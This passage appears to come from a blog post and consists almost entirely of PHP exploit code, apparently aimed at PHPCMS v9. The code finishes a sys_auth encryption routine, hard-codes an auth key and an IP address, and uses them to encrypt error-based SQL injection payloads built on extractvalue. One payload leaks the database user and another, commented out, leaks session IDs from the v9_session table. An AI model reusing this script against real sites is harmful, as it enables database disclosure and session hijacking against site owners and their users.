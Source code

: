 ```php
        $a = ($a + 1) % 256;
        $j = ($j + $box[$a]) % 256;
        $tmp = $box[$a];
        $box[$a] = $box[$j];
        $box[$j] = $tmp;
        $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
    }

    if($operation == 'DECODE') {
        if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
            return substr($result, 26);
        } else {
            return '';
        }
    } else {
        return $keyc.rtrim(strtr(base64_encode($result), '+/', '-_'), '=');
    }
}

$auth_key = "wR67aGYF4kOghES5NKG1";
$ip = "123.59.214.3";
function get_auth_key($prefix,$suffix="") {
    global $auth_key;
    global $ip;
    if($prefix=='login'){
        $pc_auth_key = md5($auth_key.$ip);
    }else if($prefix=='email'){
        $pc_auth_key = md5($auth_key);
    }else{
        $pc_auth_key = md5($auth_key.$suffix);
    }
    $authkey = md5($prefix.$pc_auth_key);
    return $authkey;
}

$auth_key2 = get_auth_key('login');
$auth_key2 = get_auth_key('login');
$sql = "1' and (extractvalue(1,concat(0x7e,(select user()))));#\txx";
#$sql = "1' and (extractvalue(1,concat(0x7e,(select sessionid from v9_session))));#\tokee";
$sql = sys_auth($sql,'ENCODE',$auth_key2);
echo sys_auth($sql,'ENCODE',$auth_key);

echo "\n";
echo sys_auth('1','ENCODE',$auth_key);

echo sys_auth('3d1bj3Vdx7JEQ6XakmlhBiUiEYBo7Ff3XMV2qrSu','DECODE',$auth_key);
```
![image.png](http://upload-images.jianshu.io/upload_images/2159605-561fec2c0556789c.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
